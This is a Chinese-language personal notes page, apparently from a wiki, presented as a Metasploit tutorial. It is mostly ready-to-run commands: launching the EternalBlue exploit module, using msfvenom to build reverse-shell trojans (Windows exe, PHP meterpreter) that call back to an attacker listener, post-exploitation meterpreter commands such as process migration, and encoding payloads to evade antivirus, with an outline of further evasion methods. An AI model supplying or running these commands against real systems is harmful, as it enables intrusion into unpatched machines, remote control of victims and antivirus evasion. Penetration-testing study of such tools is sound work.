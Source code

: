 ```yaml
---
title: 19.msf
description: msf渗透框架
published: 1
date: 2023-04-21T05:12:23.806Z
tags: web safe, msf
editor: markdown
dateCreated: 2023-04-19T17:46:07.123Z
---
```


<center>msf</center>



[toc]



## Msf

> metasploit 渗透测试框架 [msf](https://github.com/rapid7/metasploit-framework)
>
> pro功能强大



### 1.使用

```shell
# docker
docker pull metasploitframework/metasploit-framework
docker run -it -p 443:433 d4
# msfconsole
msfconsole

# 查看能使用的漏洞
show exploits

# 搜索
search xxx

# 使用 有规律的
use exploit/windows/smb/ms17_010_eternalblue

# 攻击载荷
show payloads

# 攻击信息
show options
set payload <name>
set lhost <host>
set rhost <host>

# 攻击
exploit/run

# 信息
show info
show tagets
# 检查 不能直接打死别人
check
```

> [msf17010](https://www.codenong.com/cs106870256/)

### 2.木马工具

> msfvenom 木马生成工具

```shell
# 生成木马 -p pyloads -LHOST 主机 -LPORT -f 文件类型
msfvenom -p windows/x64/vncinject/reverse_winhttp LHOST=192.168.1.13 LPORT=888 -f exe > ~/Desktop/shell.exe 


# msfconsole 使用木马监听模块
use exploit/multi/handler
set LHOST 192.168.1.13 
set LPORT 888

# 生成php木马  raw 源码    elf linux格式
msfvenom -p php/meterpreter_reverse_tcp LHOST=192.168.1.13 LPORT=888 -f raw > shell.php

# 查看payload
msfvenom -l payload

# 查看代码混淆 -e
msfvenom -l encoders
# 生成文件格式 -f
msfvenom --list format
```



### 3. 会话

> meterpreter 管理木马 
>
> 逆向工具[csdn](https://blog.csdn.net/qq_20031585/article/details/125865535) 
>
> [ghidra](https://github.com/NationalSecurityAgency/ghidra)

```shell
help #帮助文档

# 使用 msf17_010永恒之蓝攻击win7

# 上传下载  那大文件这么办呢
upload/download

# 获取shell  乱码：chcp 65001
shell

# 搜索/编辑 文件
search/edit

# 端口转发
portfwd 

# 进程迁移 我们的木马进程注入到系统进程中
migrate

```



### 4. 木马混淆

> encoders 木马混淆

```shell
# 混淆代码 -e
msfvenom -l encoders 

msfvenom -p windows/x64/vncinject/reverse_winhttp -e x64/zutto_dekiru  LHOST=192.168.1.13 LPORT=888 -f exe  > ~/Desktop/shell.exe
```

>  如何免杀：防止杀软杀了我们
>
>  我们木马混淆就是免杀

```shell
# 一般二进制选手看杀软为何杀我们(了解工作流)
修改文件md5
    1. 添加无效数据(了解pe结构)
    2. 修改资源表
    3. 修改字符串
    4. 修改体积
修改指令(代码)
修改执行流程(加壳)
修改源码
```



### 5.流程

1. 找目标存在的漏洞
2. 使用该漏洞
3. 设置payload
4. 攻击













